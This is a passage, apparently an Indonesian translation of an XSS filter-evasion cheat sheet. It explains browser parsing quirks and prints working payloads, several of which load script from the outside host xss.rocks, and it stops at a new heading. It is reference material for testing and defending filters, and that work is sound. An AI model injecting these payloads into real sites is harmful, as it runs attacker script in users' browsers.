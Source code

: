 #### Contoh 4: XSS Non-alfa-non-digit

Pengurai HTML Firefox menganggap non-alfa-non-digit tidak valid setelah kata kunci HTML dan karenanya menganggapnya sebagai spasi atau token yang tidak valid setelah tag HTML. Masalahnya adalah beberapa filter XSS menganggap bahwa tag yang mereka cari dipecah oleh spasi. Misalnya `\<SCRIPT\\s` != `\<SCRIPT/XSS\\s`:

```html
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
```

Berdasarkan ide yang sama seperti di atas, namun, diperluas, menggunakan fuzzer Rsnake. Mesin rendering Gecko memungkinkan karakter apa pun selain huruf, angka, atau karakter enkapsulasi (seperti tanda kutip, tanda kurung siku, dll.) di antara pengendali peristiwa dan tanda sama dengan, sehingga lebih mudah untuk melewati blok skrip lintas situs. Perhatikan bahwa ini juga berlaku untuk karakter aksen grave seperti yang terlihat di sini:

```html
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit mencatat bahwa ada perilaku yang sedikit berbeda antara mesin render Trident (IE) dan Gecko (Firefox) yang hanya mengizinkan garis miring antara tag dan parameter tanpa spasi. Ini dapat berguna dalam serangan jika sistem tidak mengizinkan spasi:

```html
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
```

### Tanda Kurung Buka Asing

Vektor XSS ini dapat mengalahkan mesin deteksi tertentu yang bekerja dengan memeriksa pasangan tanda kurung sudut buka dan tutup yang cocok, lalu membandingkan tag di dalamnya, alih-alih algoritma yang lebih efisien seperti [Boyer-Moore](https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore_string-search_algorithm) yang mencari kecocokan string lengkap dari tanda kurung sudut buka dan tag terkait (tentu saja setelah pengaburan). Tanda garis miring ganda mengomentari tanda kurung asing di akhir untuk menghilangkan kesalahan JavaScript:

```html
<<SCRIPT>alert("XSS");//\<</SCRIPT>
```

(Dikirimkan oleh Franz Sedlmaier)

### Tidak Ada Tag Skrip Penutup

Dengan Firefox, Anda sebenarnya tidak memerlukan bagian `\></SCRIPT>` dari vektor XSS ini, karena Firefox menganggapnya aman untuk menutup tag HTML dan menambahkan tag penutup untuk Anda. Tidak seperti serangan berikutnya, yang tidak memengaruhi Firefox, metode ini tidak memerlukan HTML tambahan di bawahnya. Anda dapat menambahkan tanda kutip jika perlu, tetapi biasanya tidak diperlukan:

```html
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
```

### Resolusi Protokol dalam Tag Skrip
